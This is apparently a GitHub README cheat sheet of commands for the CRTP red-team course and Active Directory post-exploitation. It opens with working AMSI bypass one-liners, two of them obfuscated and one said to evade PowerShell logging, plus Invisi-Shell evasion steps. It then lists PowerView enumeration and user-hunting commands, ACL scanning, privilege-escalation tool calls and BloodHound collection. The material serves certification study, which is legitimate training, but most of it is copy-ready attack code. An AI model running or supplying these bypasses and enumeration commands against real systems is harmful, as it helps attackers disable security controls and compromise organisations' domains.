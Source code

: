 # CRTP_Skid
Commands and reference material useful for the CRTP course and Active Directory post-exploitation.

- [CRTP AD Attacks](#CRTP-Skid)
  - [Shell Prep & Defense Evasion](#Shell-Prep-&-Defense-Evasion)  
    - [Invisi-Shell](#Invisi-Shell)
    - [AMSI Bypass](#AMSI-Bypass)
  - [Domain Enumeration](#Domain-Enumeration)  
    - [Powerview](#Powerview)
      - [Domain](#Domain-Enum)
      - [Domain Trust](#Domain-Trust)
      - [Users Groups Computers](#Users-Groups-Computers)
      - [Share Enum](#Share-Enum)
      - [GPO](#Group-Policy-Objects)
      - [Access Control Lists](#Access-Control-Lists)
    - [AD PowerShell Module](#Active-Directory-PowerShell-Module)
   - [Privilege Escalation](#Privilege-Escalation)  
    - [Other Tooling](#Tooling)
      - [Bloodhound](#Bloodhound)
      - [Mimikatz](#Mimikatz)
    - [Links](#Links)
      - [User Hunting](#User_Hunting)

## Shell Prep & Defense Evasion

### [Invisi-Shell](https://github.com/OmerYa/Invisi-Shell)
Invisi-Shell is used in the labs to bypass PowerShell security features by hooking .NET assemblies. Invisi-Shell a batch file for execution (two batch files dependant on current privilege level) that reference the invisi-shell DLL. Note - Invisi-shell may break certain functionality of certain programs run within shell.
```powershell
C:\Path\RunWithRegistryNonAdmin.bat 
C:\Path\RunWithPathAsAdmin.bat
```
### AMSI Bypass 
More AMSI Bypass techniques [here](https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell)

#### ‘Plain’ AMSI bypass example:
```powershell
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)
```
#### Obfuscation example for copy-paste purposes:
```powershell
sET-ItEM ( 'V'+'aR' +  'IA' + 'blE:1q2'  + 'uZx'  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    GeT-VariaBle  ( "1Q2U"  +"zX"  )  -VaL )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f'Util','A','Amsi','.Management.','utomation.','s','System'  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f'amsi','d','InitFaile'  ),(  "{2}{4}{0}{1}{3}" -f 'Stat','i','NonPubli','c','c,' ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )
```
#### Another bypass, which is not detected by PowerShell autologging:
```powershell
[Delegate]::CreateDelegate(("Func``3[String, $(([String].Assembly.GetType('System.Reflection.Bindin'+'gFlags')).FullName), System.Reflection.FieldInfo]" -as [String].Assembly.GetType('System.T'+'ype')), [Object]([Ref].Assembly.GetType('System.Management.Automation.AmsiUtils')),('GetFie'+'ld')).Invoke('amsiInitFailed',(('Non'+'Public,Static') -as [String].Assembly.GetType('System.Reflection.Bindin'+'gFlags'))).SetValue($null,$True)
```
## Domain Enumeration 
### Powerview 
Powerview is referenced quite a bit in the course material, but the Microsoft-signed AD PowerShell Module can also be used and will typically evade AV sigs where PowerView may not if using an unmodified version. 

#### Domain Enum

```powershell 
Get-NetDomain
Get-NetDomain -Domain <domainname>
Get-DomainSID
Get-DomainPolicy (Get-DomainPolicy)."System Access" net accounts
```
#### Domain Trust

```powershell 
Get-NetDomainTrust
Get-NetForest
Get-NetForestDomain
Get-NetforestDomain -Forest <domain name>
Get-NetForestCatalog
Get-NetForestCatalog -Forest <domain name>
Get-NetForestTrust
Get-NetForestTrust -Forest <domain name>
Get-NetForestDomain -Verbose | Get-NetDomainTrust
```
#### Users Groups Computers 
```powershell 
Get-NetDomainController
Get-NetDomainController | select-object Name
Get-NetUser
Get-NetUser -Username <username>
Get-NetUser | select samaccountname
Get-NetUser | select samaccountname, lastlogon, pwdlastset
Get-NetUser | select samaccountname, lastlogon, pwdlastset | Sort-Object -Property lastlogon
Get-NetUser | select samaccountname, memberof
get-userproperty -Properties pwdlastset
Find-UserField -SearchField Description -SearchTerm "built"
Get-netuser | Select-Object samaccountname,description
Get-NetComputer
Get-NetComputer -FullData
Get-NetComputer -Computername <computername> -FullData
Get-NetComputer -OperatingSystem "*Server 2016*"
Get-NetComputer -fulldata | select samaccountname, operatingsystem, operatingsystemversion
Get-NetGroup
Get-NetGroup -GroupName *admin*
Get-NetGroup -Domain <domain>
Get-NetGroupMember -Groupname "Domain Admins" -Recurse
Get-NetGroupMember -Groupname "Domain Admins" -Recurse | select MemberName
Get-NetGroup -Username <username>
Get-NetlocalGroup -Computername <computername> -ListGroups
Get-NetlocalGroup -Computername <computername> -Recurse
Get-NetLoggedon -Computername <computername>
Get-LoggedonLocal -Computername <computername>
Get-LastLoggedOn -ComputerName <computername>
Invoke-UserHunter
Invoke-UserHunter -GroupName <name>
Invoke-UserHunter -CheckAccess
Invoke-UserHunter -Stealth
Find-LocalAdminACcess -Verbose
Find-DomainUserLocation -Verbose
Find-DomainUserLocation -UserGroupIdentity "Group"
```
#### Share Enum

```powershell 
Invoke-ShareFinder -Verbose
Invoke-ShareFinder -ExcludeStandard -ExcludePrint -ExcludeIPC
Invoke-FileFinder -Verbose
Get-NetFileServer
```
#### Access Control Lists

```powershell 
Get-ObjectACL -SamAccountName <accountname> -ResolveGUIDS
Get-ObjectACL -ADSprefix ‘CN=Administrator,CN=Users’ -Verbose
Get-PathAcl -Path \\<Domain controller>\sysvol
Invoke-ACLScanner -ResolveGUIDs
Invoke-ACLScanner -ResolveGUIDs | select IdentityReference, ObjectDN, ActiveDirectoryRights | fl
Invoke-ACLScanner | Where-Object {$_.IdentityReference –eq [System.Security.Principal.WindowsIdentity]::GetCurrent().Name}
```

#### Group Policy Objects 

```powershell 
Get-NetGPO
Get-NetGPO -Computername <computername>
Get-NetGPOGroup
Find-GPOComputerAdmin -Computername <computername>
Find-GPOLocation -Username user -Verbose
Get-NetOU -Fulldata
Get-NetOU StudentMachines | %{Get-NetComputer -ADSPath $_}
Get-NetGPO -GPOname "{<gplink>}"
```

#### Active Directory PowerShell Module
- [Microsofts AD PowerShell](https://docs.microsoft.com/en-us/powershell/module/activedirectory/?view=windowsserver2022-ps) module can also be used for domain enumeration. 

## Privilege Escalation
Techniques relevant to abusing AD/system misconfiguration and normal Windows functionality to achieve privesc. 
#### Privesc tools/scripts
- [PowerUp](https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc)
- [PrivEsx](https://github.com/enjoiz/Privesc)

#### PowerView

```powershell 
Get-ServiceUnquoted -Verbose 
Get-ModifiableServiceFile -Verbose
Get-ModifiableService -Verbose 
```

#### PowerUp
```powershell 
Invoke-AllChecks
```
#### Privesc
```powershell 
Invoke-PrivEsc
```
#### PrivescCheck
```powershell 
Invoke-Privesc Check
```
#### PEASS-ng
```powershell 
winPEASx64.exe
```
## Tooling 

I found that the covered tooling in the course is sufficient for achieving CLI access across the hosts in the exam. However, some of the techniques and tools used in the course will not work in the exam due to .NET dependancies. 


#### Bloodhound
Set up Bloodhound/Neo4J on your host before the exam. I ran in to an issue involving OpenJDK vesioning with Neo4J on Catalina, as well as an issue ingesting the collected data using the latest version of Bloodhound. I used the below workarounds. 
- Bloodhound version 9.4.0 (OSX)
  - If you run in to Bloodhound error "file created from incompatible collector" upon import of collected .json files, try running an older version of Bloodhound. See [this](https://github.com/fox-it/Bloodhound.py/issues/69) 
- Neo4J 4.4.9 (OSX)
  - Install older version of OpenJDK 11+ if you run in to issues. See [this](https://gist.github.com/drm317/3e2a9ce4ba1288c4fbaab1e534d71133)

```powershell 
#Start neo4j 
./neo4j console 
#Run collectors 
. ./sharphound.ps1
Invoke-Bloodhound -CollectionMethod all -Verbose
Invoke-Bloodhound -CollectionMethod LoggedOn -Verbose
```
## Links
- [User Hunting](https://sixdub.medium.com/derivative-local-admin-cdd09445aac8)
- [PowerShell Constrained Language Mode](https://devblogs.microsoft.com/powershell/powershell-constrained-language-mode/)
- [PowerShell Obfuscation (Invoke-Obfuscation)](https://github.com/danielbohannon/Invoke-Obfuscation) 
